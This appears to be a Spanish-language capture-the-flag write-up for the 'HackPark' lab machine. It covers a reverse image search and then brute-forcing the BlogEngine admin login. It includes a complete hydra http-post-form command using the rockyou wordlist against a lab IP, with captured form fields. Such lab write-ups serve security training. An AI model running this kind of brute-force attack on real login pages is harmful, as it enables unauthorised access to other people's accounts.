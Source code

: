 # HackPark

Nos encontramos con una máquina que en su descripción pone:

Fuerza bruta de logins en web con hydra, identificar y usar exploit publicos para escalar privilegios en una máquina Windows!

# Introducción

Ejecuta la máquina y accede al servidor web.

![image](https://github.com/user-attachments/assets/7146f828-eb02-4854-8ed6-4da39522496f)

En la web nos encontramos con una imagen de un payaso, en la cuál la podemos descargar o hacer una "reverse search" (yo he utilizado esta página https://tineye.com)

Respuesta: Pennywise

## Hydra

Ahora necesitaremos encontrar la pagina de logeo y identificar la consulta que hacemos al servidor web. Normalmente las consultas tienen don tipos, GET Y POST.

Podemos ver las consultar haciendo click por ejemplo en el formulario, inspeccionando el eleento y leer los valores. Pudiendo identificar con BurpSuite si se puede llegar a interceptar tráfico.

¿Que tipo de consulta utiliza windows para enviar la consulta? POST

/Account/login.aspx?ReturnURL=/admin

Ahora que sabemos el tipo de consulta y la URL, podemos primero hacer la dicha consulta y posteriormente recogerla y hacer la fuerza bruta con hydra.

![image](https://github.com/user-attachments/assets/f4479457-44b4-4a44-89e6-8064814b3663)

Nos falta el usuario, cosa que es facilita de sacar "blogengine default credentials" : Admin

```
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.202.44 http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Bjdg0T4vJInmW5tUM8x5txmfsq8hz6JGO83P0kbnaJq966zSeFeDAxLS%2BXyw4U4S%2FgpkPbUDHuPw14Mx2Q2QJRFxJ7kenDSk54xKXAp9wDV4gVOW3yEZCH93n0756GyaZ8EyMi58wMwEivOw0zpcHO8xp8e%2Bj32e7h3iv5zKqryGFUPE&__EVENTVALIDATION=31Qm85XIxQI11Fi3HPbRUY6kn21c%2F0zPSqk2UvIRBUu1Tt4QS4oLN1VfqrwJsGOUA5SWiSRdcq5xSwvpOpMlWpc%2FfuQa%2BRGsBlT0juZD%2BREOwscUWk%2BwRvwxsVfiEUUV6Hu35MTQshjrc21mdMKy7m8SMyNHNImtbJDftdJDzqYsNqF7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

- Donde indicamos el usuario, lo más importante es el "http-post-form" seleccionamos la IP y lo que nos ha proporcionado BurpSuite por ultimo cambiamos las variables username y password

![image](https://github.com/user-attachments/assets/50220741-f712-422d-b931-927db3eecfae)
